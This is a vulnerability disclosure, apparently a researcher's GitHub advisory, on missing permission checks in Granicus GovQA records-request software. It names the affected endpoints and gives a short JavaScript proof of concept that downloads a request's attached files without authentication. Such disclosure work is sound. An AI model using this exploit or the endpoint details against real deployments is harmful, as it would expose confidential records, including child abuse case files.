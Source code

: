 # Granicus GovQA

## Description

Insufficient permission check vulnerabilities in Granicus's GovQA allowed unauthorized access to view, edit, and change ownership of open records requests[^1], including restricted-access confidential records. By changing ownership of a request, an attacker could effectively deny a legitimate user's access to that request. The vulnerabilities affected various deployments, including numerous Departments of Children and Family Services or their equivalents, which handle highly sensitive records of domestic violence and sexual abuse allegations against children.

## Details

The vulnerabilities allowed attackers to perform several unauthorized actions, as detailed below.

- To view request details, an attacker could access `RequestOpen.aspx?rid=<requestId>` or `RequestOpenCI.aspx?rid=<requestId>`, allowing them to view the name and other private information about the requester, as well as full details of the request.
- To edit request details, an attacker could access `RequestOpenCI.aspx?rid=<requestId>` to modify any field originally set by the requester.
- To change ownership of requests, an attacker could access `RequestOpenCI.aspx?rid=<requestId>` to manipulate the email field to assign ownership to their own account, another user's account, or to an email address not associated with an existing user.
- To download files attached to a request, which include those uploaded by the requester and the responding organization, an attacker could send a `POST` request to `RequestEdit.aspx/DownloadAll` with the data `{ itemId: <requestId> }`. This action would return a URL similar to `/temp/<requestId>.zip`, which could then be used to download the files. A proof of concept exploit is included below.

The sequential numbering of Request IDs makes it trivial for attackers to discover other requests, posing future risk to the system.

In a clear effort to protect its brand value, Granicus has deemed this issue low severity[^2], showcasing an egregious disregard for industry-standards, such as the Common Vulnerability Scoring System (CVSS).

CVSS: 9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

## Timeline

- 2024-01-06 - Vulnerabilities discovered in GovQA.
- 2024-01-08 - Granicus notified that vulnerabilities exist in GovQA.
- 2024-02-27 - Vulnerability details reported to Granicus.
- 2024-03-04 - Granicus confirms receipt of report.
- 2024-03-04 - Vulnerabilities confirmed fixed.

## Proof of Concept

```JavaScript
/*
 * Download all files for the request currently being viewed.
 * No authentication is required.
 */
DownloadFiles((new URL(window.location)).searchParams.get('rid'));

async function DownloadFiles(itemId) {
  const result = await fetch("RequestEdit.aspx/DownloadAll", {
    method: "POST",
    body: JSON.stringify({
      itemId: itemId
    }),
    headers: {"Content-Type": "application/json; charset=utf-8"}
  })
  if (result.status !== 200) {
      console.log(`Unable to download archive for ${itemId}.`);
      return;
  }
  const json = await result.json();
  console.log(`Attempting to download ${json.d}`);
  window.location=`.${json.d}`;
}
```

## Acknowledgements

- [Jaku](https://twitter.com/Jaku), founder of [Crowd Control](https://crowdcontrol.live/), who frequently offers his cybersecurity wisdom and experience.
- [Johnny Xmas](https://linktr.ee/johnnyxmas), [Burbsec](https://burbsec.com/) President, who has long provided guidance and acted as the voice of reason.
- [David DiMolfetta](https://www.nextgov.com/voices/david-dimolfetta/25968/) from [Nextgov/FCW](https://www.nextgov.com/), who immediately understood the severity of these vulnerabilities, took them to his editors, and worked tirelessly on his article[^3].
- [Zack Whittaker](https://techcrunch.com/author/zack-whittaker/) from [TechCrunch](https://techcrunch.com), who graciously allows me to rant about cybersecurity.
- [Brendon Keefe](https://www.atlantanewsfirst.com/authors/brendan.keefe/) from [Atlanta News First](https://www.atlantanewsfirst.com/), who retroactively permitted me to use his open records request for testing.
- The [CISA CVD Team](https://www.cisa.gov/coordinated-vulnerability-disclosure-process) assisted with the coordination of these vulnerabilities.

## Contact

[Jason Parker](https://linktr.ee/northantara)

- Email: [north@ꩰ.com](mailto:north@ꩰ.com)
- Press: [press@jeltz.org](mailto:press@jeltz.org)
- Mastodon: [@north@ꩰ.com](https://ꩰ.com/@north)

## Sponsorship

- If you enjoy my work, consider becoming a sponsor on [Patreon](https://patreon.com/northantara) or [GitHub](https://github.com/sponsors/qwell/), and/or consider donating to the [Electronic Frontier Foundation](https://eff.org/donate) or [St. Jude](https://www.stjude.org/donate). Many hours of labor are put into researching and disclosing vulnerabilities.

[^1]: _The term "open" in "open records requests" can be misleading, as not all "open" requests are intended for public access. Many state and local governments have exceptions regarding the types of information that can be requested and the individuals permitted to access it. For instance, individuals directly affected by a record may have a legal right to request access regardless of public release exemptions. However, accessing such requests may pose security risks, as sensitive information could be downloaded by attackers. Furthermore, different states have varying requirements for requesting access, with some jurisdictions requiring proof of identity or residency. For example, Tennessee mandates requestors to upload a copy of their State ID to prove residency, potentially exposing personal information to unauthorized access._

<!-- -->

[^2]: _If Granicus considers the leakage of explicit records describing the sexual abuse of children to be of low severity, I shudder to think what they might consider to be of medium or high severity._

<!-- -->

[^3]: _[Flaws in public records management tool could let hackers nab sensitive data linked to requests](https://www.nextgov.com/cybersecurity/2024/03/flaws-public-records-management-tool-could-let-hackers-nab-sensitive-data-linked-requests/394755/)_
